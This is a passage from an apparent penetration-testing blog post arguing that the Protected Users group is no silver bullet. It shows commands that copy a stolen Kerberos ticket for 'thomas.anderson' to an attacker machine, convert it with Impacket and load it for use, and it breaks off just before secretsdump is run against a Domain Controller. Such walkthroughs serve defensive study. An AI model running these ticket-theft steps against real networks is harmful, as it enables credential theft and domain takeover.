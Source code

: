 Finally, we download the ticket file to our Kali machine:
```powershell
download c:\temp\toanTGT.kirbi toanTGT.kirbi
```
{: .nolineno }

![Downloading TGT to attacker machine](/assets/posts/2023-05-03-ProtectedUsers_NotASilverBullet/13_TGTDownload.png)
_Downloading TGT to attacker machine_

We have *thomas.anderson* TGT on our attacking machine, let's use it now! To do so, we need to convert it from Windows to Unix format (.kirbi to .ccache). We will use `ticketConverter` from [Impacket](https://github.com/fortra/impacket):
```zsh
impacket-ticketConverter toanTGT.kirbi toanTGT.ccache
```
{: .nolineno }

![Converting TGT from kirbi to ccache](/assets/posts/2023-05-03-ProtectedUsers_NotASilverBullet/14_TGTKirbiToCcache.png)
_Converting TGT from kirbi to ccache_

Then we reference it in the `KRB5CCNAME` environment variable to use it with the other tools:
```zsh
export KRB5CCNAME=toanTGT.ccache
```
{: .nolineno }

![Referencing TGT in KRB5CCNAME](/assets/posts/2023-05-03-ProtectedUsers_NotASilverBullet/15_TGTExport.png)
_Referencing TGT in KRB5CCNAME_

Finally, we use `secretsdump` with our Kerberos ticket (`-k`), against the Domain Controller:
